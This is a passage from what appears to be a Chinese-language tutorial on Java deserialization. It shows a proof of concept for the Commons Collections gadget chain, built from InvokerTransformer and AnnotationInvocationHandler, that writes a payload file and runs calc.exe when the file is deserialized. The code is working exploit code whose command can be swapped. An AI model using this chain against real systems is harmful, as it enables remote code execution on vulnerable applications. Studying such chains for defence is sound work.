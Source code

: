 ```java
                    ),
                    // 传入getRuntime方法对象 反射执行invoke方法 得到Runtime实例
                    new InvokerTransformer("invoke",
                            new Class[]{Object.class, Object[].class},
                            new Object[]{null, null}
                    ),
                    // 传入Runtime实例 执行exec方法
                    new InvokerTransformer("exec",
                            new Class[]{String.class},
                            new Object[]{"calc.exe"})
            };

            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

            Map innermap = new HashMap();
            innermap.put("value", "value");
            //outermap对象传入的value是具有恶意代码的chainedTransformer对象
            Map outermap = TransformedMap.decorate(innermap, null, chainedTransformer);
            // 构造包含恶意map的AnnotationInvocationHandler对象
            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cst = cl.getDeclaredConstructor(Class.class, Map.class);
            cst.setAccessible(true);
            Object exploitObj = cst.newInstance(Target.class, outermap);

            // 序列化
            FileOutputStream fos = new FileOutputStream("payload.bin");
            ObjectOutputStream oos = new ObjectOutputStream(fos);
            oos.writeObject(exploitObj);
            oos.close();

            // 反序列化，会自动调用outermap的setvalue函数。于是调用链形成。
            FileInputStream fis = new FileInputStream("payload.bin");
            ObjectInputStream ois = new ObjectInputStream(fis);
            Object result = ois.readObject();
            ois.close();
            System.out.println(result);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

运行这个poc，会打开计算器程序。
